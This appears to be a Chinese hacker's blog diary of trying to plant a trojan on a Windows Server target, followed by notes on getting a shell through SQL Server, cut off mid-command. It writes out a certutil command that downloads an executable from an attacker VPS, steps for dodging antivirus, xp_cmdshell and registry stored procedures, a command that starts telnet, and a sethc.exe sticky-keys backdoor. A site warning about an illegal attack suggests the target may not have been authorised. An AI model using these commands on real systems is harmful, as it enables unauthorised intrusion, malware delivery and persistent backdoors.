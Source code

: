 确认一下木马已经就绪啦，然后来康康windows命令行咋下载～

惊了。windows真的好鸡儿麻烦。搜到的都是说用powershell，可是运行了一下又是拒绝。什么curl啊wget啊都米有。突然想到前几天直播课是不是讲了个啥下载证书用的Windows命令来着，赶紧去搜了一下，没错就是CertUtil！

于是 `certutil -urlcache -split -f http://vps_ip:8000/sysrf.exe sysrf.exe`

显示 `**** 联机 ****, 000000 ..., 01204a,CertUtil: -URLCache 命令成功完成。` 

一看目录，米有多出来窝sysrf鸭，启动窝的win10虚拟机试了一下，发现这个systen32原来是普通账号没权限写的，而且defender秒删窝的exe233333

目标机子好像是Windows Server 2008R2，先换个目录试试 `type nul>d:\test\test` 写入成功

远程test文件d盘也下载成功，exe失败

关掉了窝的defender用CertUtil decode了一下

下载成功！

`certutil -decode d:\test\sysrf.b64 d:\test\sysrf.exe` 

`输入长度=101536 输出长度=0` 

菊花一紧x，果然是被删了呜呜呜呜呜

于是开始康如何免杀，好不容易哒好了cs发现我们的平台生成的居然有密码orz

因为太晚了准备第二天问的，不行的话再试试empire的，第二天一打开执行的地方

“您正在试图非法攻击”

？？？？？呜呜呜呜呜呜呜呜

---

反思一下，自己还是太蠢太naive，操作不够 ~~骚~~ 快， ~~运维人员居然是真实存在的（废话~~ 

应该先Tasklist康康是啥安全软件的，然后找找网站目录的，这样直接asp一句话好了鸭（继续yy。。。

总而言之Windows真的太讨厌惹！

睡觉前还在想第二天怎么搞x结果x

oa弱密码进去各种功能也都有waf拦着，唉

---

总结别的一些嗖嗖嗖的时候瞧见的：

> SQL-SERVER的常规GetShell思路：
>
> 1.确认当前的数据库用户权限为sysadmin
> 2.直接备份数据/调用可以命令执行的存储过程，如Xp_cmdshell等
> 3.若用户非sa权限则考虑差异备份 Log备份等

>除了xp_cmdshell还有操作注册表的
>
>```
>xp_regaddmultistring
>xp_regdeletekey //删除键
>xp_regdeletevalue //删除值
>xp_regenumkeys
>xp_regenumvalues //返回多个值
>xp_regread //读取键值
>xp_regremovemultistring
>xp_regwrite //写入键值 xp_regwrite 根键,子键, 值名, 值类型, 值
>控制服务的xp_servicecontrol等
>
>开启telnet服务
>execmaster..xp_servicecontrol 'start', 'tlntsvr'
>写入shift后门
>exec xp_regwrite
>'HKEY_LOCAL_MACHINE',
>'SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Image File Execution Options\sethc.exe',